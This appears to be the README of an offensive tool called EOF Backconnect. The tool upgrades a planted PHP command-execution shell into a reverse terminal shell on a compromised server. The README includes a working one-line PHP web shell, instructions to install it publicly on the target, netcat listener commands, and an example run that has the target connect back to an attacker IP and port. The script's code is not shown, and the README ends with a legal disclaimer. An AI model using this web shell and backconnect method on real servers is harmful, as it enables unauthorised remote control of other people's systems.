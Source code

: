 #EOF Backconnect
A simple script to perform various methods to gain a terminal shell from a simple PHP shell.

##Introduction
After gaining a command execution shell on a server, this script will help leverage that into a backconnected terminal shell using various payloads.

#####Example PHP Shell:
```
<?php system($_GET['cmd']); ?>
```

##Usage
1. Install the command execution shell so it is publically accesible via a URL.
2. Set up a listener to receive the incoming connection.
	- `nc -nvlp {PORT}`
	- `nc -nvlp {PORT} -s {HOST}`
3. Run this script.

##How to use

```
./eof-backconnect.py [-u URL] [-i IP] [-p PORT]
```
#####URL
This is the URL of the command execution shell, including the necessary injection parameter.

#####IP
This is the listener IP for the remote server to backconnect to.

#####PORT
This is the listener port for the target server to backconnect over.

####Example:
```
./eof-backconnect.py -u http://example.com/cmd.php?cmd= -i 10.10.15.96 -p 1337
```

##Disclaimer
Usage of this tool for attacking targets without prior mutual consent
is illegal. It is the end user's responsibility to obey all applicable local, state and
federal laws. Developers assume no liability and are not responsible for any misuse or
damage caused by this program
